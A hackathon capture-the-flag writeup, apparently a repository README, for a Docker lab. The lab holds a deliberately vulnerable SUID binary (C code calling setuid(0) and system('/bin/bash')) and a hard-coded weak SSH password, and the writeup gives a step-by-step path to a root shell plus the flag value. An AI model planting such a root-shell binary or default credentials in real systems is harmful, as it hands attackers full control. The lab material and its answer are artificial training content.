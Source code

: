 # Privilege Escalation Challenge Writeup

## Overview
This challenge is part of a pentesting lab for a hackathon, focusing on a privilege escalation vulnerability. A misconfigured SUID binary in `/usr/local/bin/vuln` allows a low-privileged user (`tester`) to execute commands as root, enabling access to a flag file located at `/root/flag.txt`. The challenge is hosted in a Docker container based on `ubuntu:22.04`, accessible via SSH.

## Setup Instructions (For Organizers)
This section details how to set up the challenge on a Windows machine using WSL2.

### Prerequisites
- Windows 10/11 with WSL2 enabled.
- Docker Desktop installed with WSL2 integration.
- Git installed for version control.
- An AWS account (optional, for cloud deployment).

### Step-by-Step Setup
1. **Install WSL2 and Ubuntu**:
   - Open PowerShell as Administrator and run:
     ```bash
     wsl --install
     ```
   - Install Ubuntu 22.04 from the Microsoft Store if not automatically installed.
   - Set WSL2 as default: `wsl --set-default-version 2`
   - Launch Ubuntu: `wsl -d Ubuntu-22.04`

2. **Install Docker Desktop**:
   - Download and install Docker Desktop from https://www.docker.com/products/docker-desktop/.
   - Enable WSL2 integration in Docker Desktop: Settings > Resources > WSL Integration > Enable for Ubuntu-22.04.
   - Restart if prompted.

3. **Install Dependencies in WSL2**:
   - In the WSL2 Ubuntu terminal:
     ```bash
     sudo apt update && sudo apt install -y git gcc
     ```

4. **Create Project Directory and Files**:
   - In WSL2, create a directory: `mkdir privesc-lab && cd privesc-lab`
   - Create the following files:
     - **vuln.c**: The vulnerable SUID binary source code.
     - **Dockerfile**: Configures the Ubuntu 22.04 container.
     - **setup.sh**: Script to build and run the container.
   - File contents are provided in the repository (see GitHub).

5. **Build and Run the Container**:
   - Make the setup script executable: `chmod +x setup.sh`
   - Build and run: `./setup.sh`
     - Builds the image as `privesc-lab`.
     - Runs the container, mapping port 2222 (host) to 22 (container).

6. **Test Locally**:
   - SSH into the container: `ssh tester@localhost -p 2222` (password: `password123`)
   - Verify the SUID binary: `find / -perm -4000 2>/dev/null`
   - Run the exploit: `/usr/local/bin/vuln`, then `cat /root/flag.txt`

7. **Push to GitHub**:
   - Initialize Git: `git init`, `git add .`, `git commit -m "Privilege escalation challenge"`
   - Push to GitHub: `git remote add origin <repo-url>`, `git push -u origin main`
   - Ensure your partner has access for integration.

8. **Cloud Deployment (Optional)**:
   - Push the image to Docker Hub: `docker tag privesc-lab <your-dockerhub>/privesc-lab:latest`, `docker push <your-dockerhub>/privesc-lab:latest`
   - Deploy on AWS ECS/EC2, ensuring SSH port 22 is open only to authorized IPs.

### File Contents
- **vuln.c**:
  ```c
  #include <stdio.h>
  #include <stdlib.h>
  #include <unistd.h>
  int main() {
      setuid(0);
      system("/bin/bash");
      return 0;
  }
  ```
- **Dockerfile**:
  ```dockerfile
  FROM ubuntu:22.04
  RUN apt-get update && apt-get install -y gcc openssh-server && rm -rf /var/lib/apt/lists/*
  RUN useradd -m -s /bin/bash tester && echo 'tester:password123' | chpasswd
  WORKDIR /usr/src/app
  COPY vuln.c .
  RUN gcc -o /usr/local/bin/vuln vuln.c && chown root:root /usr/local/bin/vuln && chmod 4755 /usr/local/bin/vuln
  RUN echo "FLAG{hackathon_privesc_success_2025}" > /root/flag.txt && chown root:root /root/flag.txt && chmod 600 /root/flag.txt
  RUN mkdir /var/run/sshd
  RUN echo 'PermitRootLogin no' >> /etc/ssh/sshd_config
  EXPOSE 22
  CMD ["/usr/sbin/sshd", "-D"]
  ```
- **setup.sh**:
  ```bash
  #!/bin/bash
  docker build -t privesc-lab .
  docker run -d -p 2222:22 --name privesc-container privesc-lab
  ```

## Challenge Writeup (For Participants)
This section is for hackathon participants to understand and solve the privilege escalation challenge.

### Challenge Description
You have SSH access to a server as the user `tester`. Your goal is to escalate privileges to root and read the flag located at `/root/flag.txt`. The system contains a misconfigured SUID binary that may help you achieve this.

### Connection Details
- **Host**: `<server-ip>` (or `localhost` for local testing)
- **Port**: 2222
- **Username**: `tester`
- **Password**: `password123`

### Steps to Solve
1. **Connect to the Server**:
   - Use SSH to log in:
     ```bash
     ssh tester@<server-ip> -p 2222
     ```
   - Enter the password: `password123`

2. **Identify SUID Binaries**:
   - Search for files with the SUID bit set:
     ```bash
     find / -perm -4000 2>/dev/null
     ```
   - Look for `/usr/local/bin/vuln` in the output.

3. **Analyze the SUID Binary**:
   - Check the binary’s permissions:
     ```bash
     ls -l /usr/local/bin/vuln
     ```
     - Output should show: `-rwsr-xr-x` (the `s` indicates SUID).
   - The binary is owned by `root` and has the SUID bit set, meaning it runs with root privileges.

4. **Exploit the Binary**:
   - Execute the binary:
     ```bash
     /usr/local/bin/vuln
     ```
   - This spawns a root shell (prompt changes to `root@...`).

5. **Read the Flag**:
   - In the root shell, read the flag file:
     ```bash
     cat /root/flag.txt
     ```
   - The flag is: `FLAG{hackathon_privesc_success_2025}`

### Hints
- Look for binaries with the SUID bit set, as they may allow privilege escalation.
- Test what the `vuln` binary does when executed—does it behave unexpectedly?
- Check if you can access restricted files after running the binary.

### Notes
- The flag is only readable by root, so you must escalate privileges to access it.
- Be cautious when running unknown binaries; in this lab, it’s safe but designed to be exploitable.

## Security Considerations
- The container is isolated via Docker, with no external exposure beyond SSH (port 22).
- Root login is disabled (`PermitRootLogin no`) to prevent brute-forcing.
- The flag file is protected (`chmod 600`), ensuring it’s only accessible via the exploit.
- For hackathon cleanup, stop and remove the container: `docker stop privesc-container && docker rm privesc-container`

## GitHub Repository
- All files (`vuln.c`, `Dockerfile`, `setup.sh`) are available in the GitHub repository: `<your-repo-url>`
- Pushed by August 13, 2025, 8 PM, for integration and testing.
